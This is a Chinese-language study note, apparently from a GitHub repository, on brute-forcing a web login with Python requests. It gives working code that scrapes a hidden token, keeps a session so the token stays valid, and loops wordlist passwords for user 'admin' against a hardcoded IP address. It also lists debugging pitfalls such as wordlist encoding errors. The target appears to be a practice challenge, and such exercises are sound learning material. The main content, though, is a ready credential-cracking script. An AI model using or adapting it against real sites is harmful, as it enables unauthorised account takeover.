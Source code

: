 # 1.python request模块进行破解

1. 今日份目标：暴力破解成功

2. 流程：使用python进行任务



# 2.步骤如下

1. 用request模块请求url
2. 对于返回包进行切片操作，获取其中的token值
3. 将获取到的token值与字典一起发送进行暴力破解





# 3.步骤开始

[参考网址](<http://docs.python-requests.org/zh_CN/latest/user/quickstart.html>)

[参考网址1：用来request的用法](<https://blog.csdn.net/LOLITA0164/article/details/80176996>)

[参考网址2：最终实现方法](<https://blog.csdn.net/Danielntz/article/details/51861168>)

[参考网址3:获取token](eed1183184514fde0ef6310575f14458)

## 3.1Token获取代码如下：

```txt
import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

host = "http://119.29.175.97/c/hdyzma/"

page = urllib.request.urlopen(host)
contents = page.read()

soup = BeautifulSoup(contents,"html.parser")
#soup的用法

print(soup.find('input',style='display:none')['value'])
#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值

```

## 3.2 字典取list

[参考网址1：编码问题](<https://www.cnblogs.com/mengyu/p/6638975.html>)



---

坑点二：文件操作问题 [参考网址](<https://www.cnblogs.com/zarr12steven/p/6206600.html>)

遇到的情况：

Traceback (most recent call last):
  File "03_crake.py", line 5, in <module>
    get = f.readline()
io.UnsupportedOperation: not readable

解决方法：open函数里 'a' 改为'r'

---

---

坑点三：rockyou.txt出现编码问题

原因：rockyou文本太大，里面有一下密码会导致编码出错无法读取之类的

解决办法：新建一个simple文本，填入大概100个密码

---

---

坑点四：发包之后显示token错误

原因：发的包里没有sessionid

解决办法：加进去

解决代码：`s = requests.session()`

​			`s.get   s.post`

---

## 3.3 循环

`for get in gets`





# 4. 完成！

最后代码如下：

```txt

import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

import requests

gets = open("C:/Users/Elliot/Desktop/python_req_crack/simple.txt","r").read().splitlines()

host = "http://119.29.175.97/c/hdyzma/"

s = requests.session()


for get in gets:
    contents = s.get(host,proxies={'http': 'http://127.0.0.1:8080'}).content
    soup = BeautifulSoup(contents, "html.parser")
# soup的用法
    token = soup.find('input', style='display:none')['value']

    #print(token)


#for line in f.readlines():

    print(get)
   # print(line)

#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值


    url = host+'welcome.php'
    d = {'name': 'admin','password':get,'token':token }
    r = s.post(url, data=d,proxies={'http': 'http://127.0.0.1:8080'})
    r.encoding = 'UTF-8'
    print(r.text)
```



